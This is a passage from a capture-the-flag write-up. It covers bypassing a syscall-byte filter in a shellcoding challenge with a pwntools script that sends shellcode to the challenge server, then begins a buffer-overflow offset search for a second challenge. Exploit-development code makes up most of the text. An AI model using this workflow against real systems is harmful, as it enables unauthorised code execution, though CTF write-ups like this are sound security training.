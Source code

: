     - **Compile**: nasm -f bin shellcode.asm -o shellcode.bin
2. **Verification**:
    
    ```python
    `with open("shellcode.bin", "rb") as f:
        data = f.read()
    bad_words = [0x80cd, 0x340f, 0x050f]
    for i in range(len(data) - 1):
        word = data[i] | (data[i + 1] << 8)
        if word in bad_words:
            print(f"Bad byte at {i}: {hex(word)}")
            exit(1)
    print("No bad bytes found.")`
    
    - **Result**: No bad bytes.
    ```
    
3. **Exploit (pwntools)**:
    
    ```python
    from pwn import *
    context.arch = 'amd64'
    with open("shellcode.bin", "rb") as f:
        shellcode = f.read()
    r = remote("34.133.69.112", 10001)
    r.send(shellcode)
    print(r.recvall().decode())
    r.close()
    ```
    
    - **Output**: **umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a**}

### **liveleak**

![image.png](image%202.png)

**Goal**: Get the flag from /flag on the server at 34.133.69.112:10007 using the provided binary chall.

---

## Find Offset

**script**

```python
from pwn import *

# Generate a 100-byte cyclic pattern
pattern = cyclic(100)
with open("pattern.txt", "wb") as f:
    f.write(pattern)

# Run the binary with the pattern
p = process(["./ld-2.35.so", "./chall"])
p.sendline(pattern)
p.wait()

# Check the crash to find the offset
core = p.corefile
offset = cyclic_find(core.read(core.rsp, 8))
print(f"Offset: {offset}")
                                                                            
```
